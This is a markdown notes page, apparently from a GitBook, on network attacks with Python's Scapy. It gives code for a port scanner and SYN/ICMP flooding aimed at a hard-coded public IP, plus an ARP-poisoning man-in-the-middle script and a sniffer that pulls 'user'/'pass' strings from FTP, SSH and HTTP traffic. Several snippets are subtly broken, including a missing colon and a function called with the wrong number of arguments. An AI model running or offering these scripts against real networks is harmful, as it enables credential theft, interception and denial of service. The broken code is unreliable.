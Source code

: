 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# scapy/network scanning

<div data-full-width="true">

<figure><img src=".gitbook/assets/1 (23).jpg" alt=""><figcaption></figcaption></figure>

</div>

<div data-full-width="true">

<figure><img src=".gitbook/assets/2 (12).jpg" alt=""><figcaption></figcaption></figure>

</div>

<div data-full-width="true">

<figure><img src=".gitbook/assets/3 (7).jpg" alt=""><figcaption></figcaption></figure>

</div>

<div data-full-width="true">

<figure><img src=".gitbook/assets/4 (4).jpg" alt=""><figcaption></figcaption></figure>

</div>

<div data-full-width="true">

<figure><img src=".gitbook/assets/5 (3).jpg" alt=""><figcaption></figcaption></figure>

</div>

<div data-full-width="true">

<figure><img src=".gitbook/assets/6 (2).jpg" alt=""><figcaption></figcaption></figure>

</div>

<div data-full-width="true">

<figure><img src=".gitbook/assets/7 (2).jpg" alt=""><figcaption></figcaption></figure>

</div>

pip install scapy

```python
from scapy.all import *

def pkt_callback(pkt):
  print(pkt.show())
  
def main():
  sniff(prn=pkt_callback, count=1)
  
if __name__=="__main__":
  main()
```

**PORT SCANNER**

```python
from scapy.all import *

target = "146.59.35.163"

for port in range(20, 100):
  pkt = IP(dst=target)/TCP(dport=port, sport=1337, flags="S")
  ans, noans = sr(pkt, timeout=0.5, verbose=False)
  if ans:
    data = str(ans[0]).split("|")[3].split()[1].split("sport=")
    if not data[1].isdigit():
      print(f"{port}:{data}")
```

**BERKELEY PACKET FILTER**

```python
from scapy.all import *

def call_back(pkt)
  if pkt[TCP].payload:
    my_pkt = str(pkt[TCP].payload)
    if 'user' in my_pkt.lower() or 'pass' in my_pkt.lower():
      print(pkt[IP].dst)
      print(my_pkt)
      
def main():
  sniff(filter='tcp port 21 or tcp port 22 or tcp port 80', prn=call_back, store=0)
  
if __name__ == "__main__":
  main()
```

<div data-full-width="true">

<figure><img src=".gitbook/assets/1 (24).jpg" alt=""><figcaption></figcaption></figure>

</div>

```python
from scapy.all import *

for i in range (1,255):
  ip = f"172.17.240.{i}"
  arp_out = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst=ip, hwdst="ff:ff:ff:ff:ff:ff")
  arp_in = srp1(arp_out, timeout=0.5, verbose=False)
  if arp_in:
    print(f"IP: {arp_in.psrc} MAC: {arp_in.hwsrc}")
```

<div data-full-width="true">

<figure><img src=".gitbook/assets/1 (25).jpg" alt=""><figcaption></figcaption></figure>

</div>

```python
from scapy.all import *

def arp_poison(gt_ip, gt_mac, t_mac):
  while True:
    pkt_to_gt = ARP(op=2, pdst=gt_ip, hwdst=gt_mac, psrc=t_ip)
    pkt_to_t = ARP(op=2, pdst=t_ip, hwdst=t_mac, psrc=gt_ip)
    send(pkt_to_gt)
    send(pkt_to_t)
    
def get_mac(ip):
  arp_out = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst=ip)
  ans, noans = srp(arp_out, timeout=0.5, retry=2, verbose=False)
  for send, receive in ans:
    return receive[ARP].hwsrc
  return None
  
gt_ip = input("Gt_ip: ")
t_ip = input("T_ip: ")
gt_mac = get_mac(gt_ip)
t_mac = get_mac(t_ip)

arp_poison(gt_ip, gt_mac, t_ip, t_mac)
```

<div data-full-width="true">

<figure><img src=".gitbook/assets/1 (26).jpg" alt=""><figcaption></figcaption></figure>

</div>

```python
from scapy.all import *

def syn_flood(ip, port):
  pkt = IP(dst=ip)/TCP(dport=port, sport=1337, flags='S')/(b'X'*6000)
  send(pkt, loop=10, verbose=False)
  
def icmp_flood(ip):
  pkt = IP(dst=ip)/ICMP()/(b'414141'*6000)
  send(pkt, loop=10, verbose=False)
  
syn_flood("146.59.35.163",80)
icmp_flood("146.59.35.163")
```
